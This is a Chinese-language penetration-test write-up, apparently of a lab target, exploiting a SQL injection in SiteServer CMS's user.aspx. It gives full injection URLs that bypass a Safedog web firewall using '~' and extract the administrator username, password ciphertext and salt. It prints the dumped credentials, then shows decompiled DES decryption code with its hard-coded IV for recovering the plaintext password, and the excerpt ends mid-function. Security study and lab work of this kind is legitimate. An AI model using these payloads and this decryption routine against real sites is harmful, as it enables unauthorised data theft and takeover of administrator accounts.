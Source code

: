 使用poc进行测试

访问漏洞url，发现报错注入，爆出版本信息，是MSSql数据库

试试能不能爆出数据库名称，直接被狗拦截

<br/>`加“~”过防护，语句：`

```
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2Bdb_name()=~2;%20--
```

此时可以本地去下载siteserver搭建，看看数据库结构 

最终的绕狗语句，查询用户：

```
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20username%20from%20[bairong_Administrator]);%20--
```

`查询密文：`

```
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20password%20from%20[bairong_Administrator]);%20--
```

查询key：

```
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&amp;UserNameCollection=test%27)%20and%20~1=(select%20top%201%20PasswordSalt%20from%20[bairong_Administrator]);%20--
```

> 
- `账号 密文 key`- `admin 64Cic1ERUP9n2OzxuKl9Tw== LIywB/zHFDTuEA1LU53Opg==`


4.1.2 寻找加解密算法程序 

使用dnSpy 反编译得到加密文件，找到解密代码

```
public void DesDecrypt()
{
    byte[] rgbIV = new byte[]
{
18,
52,
86,
120,
144,
171,
205,
239
    };
    byte[] array = new byte[this.x3c811436980dcf17.Length];
    try
    {
byte[] bytes = Encoding.UTF8.GetBytes(this.x6d0b493f217f133b.Substring(0, 8));
DESCryptoServiceProvider descryptoServiceProvider = new
DESCryptoServiceProvider();
array = Convert.FromBase64String(this.x3c811436980dcf17);
MemoryStream memoryStream = new MemoryStream();
if (!false)
{
}
CryptoStream cryptoStream = new CryptoStream(memoryStream,
descryptoServiceProvider.CreateDecryptor(bytes, rgbIV), CryptoStreamMode.Write);
cryptoStream.Write(array, 0, array.Length);
cryptoStream.FlushFinalBlock();
```